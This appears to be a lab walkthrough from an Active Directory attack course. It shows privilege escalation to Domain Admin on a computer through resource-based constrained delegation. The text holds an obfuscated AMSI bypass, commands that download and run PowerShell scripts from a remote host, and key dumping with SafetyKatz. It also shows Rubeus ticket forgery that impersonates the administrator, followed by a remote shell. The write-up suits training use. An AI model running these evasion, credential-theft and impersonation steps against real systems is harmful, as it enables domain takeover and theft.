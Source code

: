 # ✍️ Find Computer in domain with Write permissions and access as Domain Admin

Let's start by using Powerview to enumerate Write permissions for a user that we have compromised. After trying from multiple users or using BloodHound we would know that the user ciadmin has Write permissions on the computer object of dcorp-mgmt ->&#x20;

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 . .\PowerView.ps1
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1121</p></figcaption></figure>

Recall that we compromised ciadmin from dcorp-ci. We can either use the reverse shell we have on dcorp-ci as ciadmin or extract the credentials from dcorp-ci.

{% content-ref url="elevate-privileges-and-gain-a-shell.md" %}
[elevate-privileges-and-gain-a-shell.md](elevate-privileges-and-gain-a-shell.md)
{% endcontent-ref %}

Now on the shell ->

```
iex (iwr http://172.16.100.13:8787/sbloggingbypass.txt -UseBasicParsing)
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.13:8787/PowerView.ps1'))
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-std613$' -Verbose
Get-DomainRBCD
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SourceName                 : DCORP-MGMT$
SourceType                 : MACHINE_ACCOUNT
SourceSID                  : S-1-5-21-719815819-3726368948-3917688648-1108
SourceAccountControl       : WORKSTATION_TRUST_ACCOUNT
SourceDistinguishedName    : CN=DCORP-MGMT,OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
ServicePrincipalName       : {WSMAN/dcorp-mgmt, WSMAN/dcorp-mgmt.dollarcorp.moneycorp.local, TERMSRV/DCORP-MGMT,
                             TERMSRV/dcorp-mgmt.dollarcorp.moneycorp.local...}
DelegatedName              : DCORP-STD613$
DelegatedType              : MACHINE_ACCOUNT
DelegatedSID               : S-1-5-21-719815819-3726368948-3917688648-15112
DelegatedAccountControl    : WORKSTATION_TRUST_ACCOUNT
DelegatedDistinguishedName : CN=DCORP-STD613,OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

Now we need the AES keys of t student VM (as we configured RBCD for it above)

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e</p></figcaption></figure>

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:dcorp-std613$ /aes256:50083fa125e328c8b5333ac2dfc62c3e47eb8f6bc0acf08b1ca15eb35894140e /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```

<figure><img src="../../.gitbook/assets/image (1130).png" alt=""><figcaption></figcaption></figure>

Now that the ticket is imported we can connect via winrs

<figure><img src="../../.gitbook/assets/image (1132).png" alt=""><figcaption></figcaption></figure>

```
winrs -r:dcorp-mgmt cmd
```

